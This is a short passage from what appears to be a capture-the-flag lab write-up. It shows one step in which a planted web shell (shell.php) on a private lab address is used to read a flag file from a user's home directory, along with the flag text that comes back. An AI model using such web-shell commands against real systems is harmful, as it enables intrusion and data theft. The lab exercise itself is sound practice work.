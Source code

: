         *   ![IMAGE: Screenshot showing `/home/commandervex/FLAG.txt`.](imgs/img_17.png)
    *   **Command:** `http://192.168.13.129/shell.php?cmd=cat /home/commandervex/FLAG.txt`
    *   **Output:**
        ```text
        Flag 2! You've decrypted Commander Vex's transmissions. The Terminal's primary communications beacon remains offline. Flag{0ld_V3X_s3nd_s1gn4l}
        ```